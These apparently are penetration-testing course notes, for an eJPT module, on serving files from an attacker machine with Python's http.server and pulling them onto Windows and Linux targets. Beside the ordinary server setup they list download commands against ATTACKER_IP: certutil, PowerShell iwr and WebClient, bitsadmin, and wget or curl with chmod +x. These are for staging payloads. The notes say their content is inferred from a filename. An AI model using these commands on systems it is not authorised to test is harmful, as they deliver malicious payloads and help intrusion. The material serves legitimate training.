 # What the video covers (Introduction / big picture)
Note: No transcript was provided. The following is inferred from the filename and module context (01-TransferringFilesToWindows&LinuxTargets).

The video demonstrates how to quickly spin up a lightweight, temporary web server using Python on your attacker machine. This is a common eJPT workflow for transferring files (payloads, tools, scripts) to Windows and Linux targets during engagements. It focuses on:
- Serving a specific directory over HTTP
- Choosing ports and binding interfaces
- Verifying access and basic troubleshooting
- Basic retrieval examples from Windows and Linux targets

# Flow (ordered)
1. Prepare a “transfer” directory and place files you want to serve.
2. Identify your attacker machine’s IP address.
3. Start a Python HTTP server (Python 3 preferred; Python 2 fallback).
4. Optionally bind to a specific interface and/or port.
5. Verify locally (curl/browser) and remotely.
6. Retrieve files from the target (Windows/Linux).
7. Stop the server or run it in the background as needed.
8. Troubleshoot ports/firewall if access fails.

# Tools highlighted
- Python 3 http.server module (primary)
- Python 2 SimpleHTTPServer module (legacy fallback)
- ip / ifconfig (to find your IP)
- curl / wget (to verify and for Linux targets)
- Windows transfer tools: certutil, PowerShell Invoke-WebRequest (iwr), curl.exe, BITSAdmin (legacy)
- ss/netstat (to check listening ports)
- ufw/firewalld/netsh (firewall adjustments, if needed)

# Typical command walkthrough (detailed, copy-paste friendly)

Attacker (Kali/Linux) – prepare and serve:
```
# 1) Pick a directory to serve
mkdir -p ~/transfer && cd ~/transfer

# Example: copy or place your payloads here
# cp /path/to/payload.exe .

# 2) Get your primary IP (used as LHOST)
ip route get 1.1.1.1 | awk '{print $7; exit}'
# Optional: export it for convenience
export LHOST=$(ip route get 1.1.1.1 | awk '{print $7; exit}')
echo $LHOST

# 3) Start Python 3 HTTP server on port 8000
python3 -m http.server 8000

# (Alt) Serve a specific directory and bind explicitly
# python3 -m http.server 8000 --directory ~/transfer --bind 0.0.0.0

# (Alt) Use port 80 (often allowed through firewalls). Needs sudo on Linux:
# sudo python3 -m http.server 80 --directory ~/transfer

# (Legacy) Python 2 fallback:
# python -m SimpleHTTPServer 8000
```

Verify locally from the attacker machine:
```
curl -I http://127.0.0.1:8000/
curl http://127.0.0.1:8000/    # should list directory contents
```

Windows attacker host (if you are serving from Windows with Python installed):
```
# If you have the Python launcher:
py -3 -m http.server 8000

# Or explicitly:
python -m http.server 8000
```

Windows target – download from attacker:
```
# Using certutil (works on most Windows versions)
certutil -urlcache -f http://ATTACKER_IP:8000/filename.exe filename.exe

# PowerShell Invoke-WebRequest (iwr). Add -UseBasicParsing for older PS (<=5.1):
powershell -Command "iwr http://ATTACKER_IP:8000/filename.exe -OutFile filename.exe"
powershell -Command "iwr http://ATTACKER_IP:8000/filename.exe -OutFile C:\Windows\Temp\filename.exe -UseBasicParsing"

# PowerShell WebClient (compatible with older setups)
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://ATTACKER_IP:8000/filename.exe','filename.exe')"

# Windows 10+ curl
curl.exe -O http://ATTACKER_IP:8000/filename.exe

# Legacy BITSAdmin
bitsadmin /transfer myJob /download /priority normal http://ATTACKER_IP:8000/filename.exe C:\Windows\Temp\filename.exe
```

Linux target – download from attacker:
```
wget http://ATTACKER_IP:8000/filename -O /tmp/filename
# OR
curl -o /tmp/filename http://ATTACKER_IP:8000/filename
chmod +x /tmp/filename
```

Run in background / stop / troubleshoot:
```
# Run in background (logs to console still)
nohup python3 -m http.server 8000 --directory ~/transfer >/dev/null 2>&1 &

# Check it’s listening
ss -tlnp | grep 8000

# Stop foreground server: Ctrl-C
# Kill background server by port:
fuser -k 8000/tcp
# Or by command line match:
pkill -f "python3 -m http.server 8000"

# If connection fails, consider firewall rules:
# Kali/Ubuntu (ufw):
sudo ufw allow 8000/tcp
# RHEL/CentOS (firewalld):
sudo firewall-cmd --add-port=8000/tcp --permanent && sudo firewall-cmd --reload
```

# Practical tips
- Prefer Python 3 http.server; only use Python 2 SimpleHTTPServer if you must.
- Default http.server binds to 0.0.0.0 and port 8000. Use another port (e.g., 8080, 8888) if 8000 is occupied.
- Ports <1024 (e.g., 80/443) require sudo/root on Linux. Port 80 may bypass some egress restrictions on targets.
- Use short, simple filenames to avoid quoting issues on targets.
- Directory listings are exposed; only place files you are comfortable exposing.
- http.server prints requests to stdout—useful for confirming downloads and path typos.
- If the attacker has multiple interfaces, bind to the correct one:
  - python3 -m http.server 8000 --bind 192.168.X.Y
- Verify from another host before relying on it during an engagement.
- On older PowerShell, add -UseBasicParsing to Invoke-WebRequest to avoid IE engine issues.

# Minimal cheat sheet (one-screen flow)
```
# Attacker (Kali)
mkdir -p ~/transfer && cd ~/transfer
export LHOST=$(ip route get 1.1.1.1 | awk '{print $7; exit}')
python3 -m http.server 8000 --directory ~/transfer

# Verify
curl http://127.0.0.1:8000/

# Windows target
certutil -urlcache -f http://LHOST:8000/file.exe file.exe
powershell -Command "iwr http://LHOST:8000/file.exe -OutFile file.exe"

# Linux target
wget http://LHOST:8000/file -O /tmp/file
curl -o /tmp/file http://LHOST:8000/file

# Stop
# Ctrl-C (foreground) or:
fuser -k 8000/tcp
```

# Summary
In this video (inferred), you set up a quick ad-hoc web server using Python’s built-in modules to host files for transfer to targets. The workflow is straightforward: pick a directory, start http.server (Python 3), note your IP/port, verify access, and pull files from Windows/Linux using native tools like certutil, PowerShell, wget, or curl. This lightweight approach avoids full web server setup, is ideal for short-lived engagements, and is a staple technique on the eJPT.